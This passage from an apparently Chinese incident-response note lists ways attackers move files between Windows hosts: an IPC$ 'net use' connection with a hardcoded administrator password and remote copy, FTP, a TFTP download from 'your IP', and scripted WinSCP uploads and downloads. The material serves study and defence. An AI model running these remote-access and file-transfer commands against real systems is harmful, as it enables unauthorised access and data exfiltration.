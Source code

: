 **5、ipc$文件共享**

IPC$(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

```
#建立远程IPC连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"
#复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-5.png)

**6、FTP**

一般情况下攻击者使用FTP上传文件需要很多交互的步骤，下面这个 bash脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```
ftp 127.0.0.1
username
password
get file
exit
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-6.png)

**7、TFTP**

用来下载远程文件的最简单的网络协议，它基于UDP协议而实现

tftp32服务端下载地址：http://tftpd32.jounin.net/tftpd32_download.html

```
tftp -i 你的IP get 要下载文件 存放位置
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-7.png)

**8、WinScp**

WinSCP是一个Windows环境下使用SSH的开源图形化SFTP客户端。

```
#上传
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "put D:\1.txt  /tmp/" "exit" /log=log_file.txt 

#下载
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "get /tmp D:\test\app\" "exit" /log=log_file.tx
```

使用winscp.exe 作为命令行参数执行远程上传/下载操作。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-8.png)
